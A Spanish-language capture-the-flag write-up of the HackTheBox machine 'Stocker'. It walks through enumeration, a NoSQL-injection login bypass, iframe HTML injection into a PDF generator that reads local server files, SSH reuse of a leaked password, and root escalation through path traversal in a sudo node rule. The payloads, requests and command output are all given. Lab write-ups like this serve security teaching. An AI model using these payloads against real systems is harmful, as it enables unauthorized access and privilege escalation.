


# Stocker


Primero debemos agregar la direccion IP a /etc/hosts
```
IP=ip_addr
$ sudo echo -e "$IP\tstocker.htb" >> /etc/hosts
```

Realizamos un escaneo con nmap para inspeccionar los puertos abiertos
```
$ sudo nmap -sC -Pn -n T5 stocker.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 17:06 EST
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!

Nmap done: 1 IP address (1 host up) scanned in 4.95 seconds
```

Se intento enumerar los directorios del servicio web con webEnum, sin embargo no se encontro nada relevante.
Se realizo tambien una enumeracion vhost con la tecnica de resolucion de nombres usando la herramienta webFuzzer lo cual mostro como resultado que existe tambien un vhost con la url dev.stocker.htb
```
$ python3 webFuzzer.py -u http://stocker.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  --threads 40  --header "Host=FUZZ.stocker.htb" --hs 301 --quiet

               _     ______                      
              | |   |  ____|                     
 __      _____| |__ | |__ _   _ ___________ _ __ 
 \ \ /\ / / _ \ '_ \|  __| | | |_  /_  / _ \ '__|
  \ V  V /  __/ |_) | |  | |_| |/ / / /  __/ |   
   \_/\_/ \___|_.__/|_|   \__,_/___/___\___|_|   
                                                 
    author:  mind2hex
    version: 1.0
    
PAYLOAD[http://stocker.htb/dev                   - {'Host':'dev.stocker.htb','Accept':'text/html,application] SC[404] CL[UNK] SERVER[nginx/1.18.0 (Ubuntu)]
```
Al navegar a la URL http://dev.stocker.htb/ nos redirige automaticamente a una pagina de login. 
Esta pagina de Login es vulnerable a NoSQL injection.
La solicitud HTTP que se envia cuando intentamos logearnos es la siguiente
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AN0cu4Mtp2qc5WI-Zc0_zYyuGRa4rtzZo.C3fNFu3CYJo%2FVhvRmgSygxHaMJ%2Bc7GRY7bAKNi76UDE
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```
Si cambiamos el Content-Type por application/json y le damos formato json a la informacion enviada en el body de la siguiente manera, podremos realizar un login bypass
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 102
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Upgrade-Insecure-Requests: 1

{"username": {"$ne": "dummyusername123"}, "password": {"$ne": "dummypassword123"}, "login": "login"}
```
Al enviar la solicitud, nos asignan un cookie y nos redirigen a /stock donde podremos "comprar" algunos productos o por lo menos agregarlos al carrito de compras

Una vez estemos adentro, agregaremos un objeto al carrito de compras y despues presionaremos en submit purchase.
La solicitud HTTP que se envia es explotable, podemos insertar codigo HTML en el campo "title" de la siguiente manera.
```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 216
Connection: close
Cookie: connect.sid=s%3A-6ZhHCRVeDZoVAHfKwG_pvbFqhZH5zhy.Im7tANLE278rm%2FqFmDaXD9JbyW429b%2F7h%2BwznFvX1iQ

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=/var/www/dev/index.js width=4000 height=1060>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
Esto va a generar un PDF en la ruta http://dev.stocker.htb/api/po/{orderid} dicho PDF nos va a mostrar el archivo que le especifiquemos en el iframe anterior.

En el archivo podremos ver la contrasena "IHeardPassphrasesArePrettySecure" la cual nos va a servir tambien para iniciar una sesion con SSH.
El nombre de usuario es "angoose", el cual aparece en la pagina http://stocker.htb/

Iniciamos sesion con SSH usando el usuario angoose y la contrasena IHeardPassphrasesArePrettySecure para obtener la bandera user.txt
```
$ ssh angoose@stocker.htb
angoose@stocker.htb's password: 
Last login: Thu Apr 27 20:48:35 2023 from 10.10.14.14
angoose@stocker:~$ cat /home/angoose/user.txt 
2a5519d5f9240374c4c92e67bc2532b9
```
Ahora ejecutaremos el comando sudo -l para ver que permisos de ejecucion tenemos.
```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ 
```
Esto nos indica que podemos usar el ejecutable /usr/bin/node con permisos de root para ejecutar cualquier script que cumpla la ruta /usr/local/scripts/*.js
Pero al inspeccionar la ruta /usr/local/scripts/ no podremos crear ni modificar ningun archivo existente.
```
angoose@stocker:~$ ls /usr/local/scripts/ -l
total 24
-rwxr-x--x 1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x 1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x 1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x 2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x 1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x 1 root root  623 Dec  6 09:53 schema.js
angoose@stocker:~$ 
```
Sin embargo la ruta /usr/local/scripts/*.js tiene un error y es que si especificamos /usr/local/scripts/../../../home/angoose/script.js igualmente se cumpliria la condicion para la ejecucion de /usr/bin/node como usuario root por lo que procedemos a crear un script en el directorio /home/angoose y lo ejecutaremos para obtener una shell con permisos de root
```
angoose@stocker:~$ echo 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' > /home/angoose/script.js
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/script.js 
# whoami
root
```
Ahora que tenemos permisos de administrador, podremos leer la bandera root
```
# cat /root/root.txt
0xdeadb33F123131231212313
```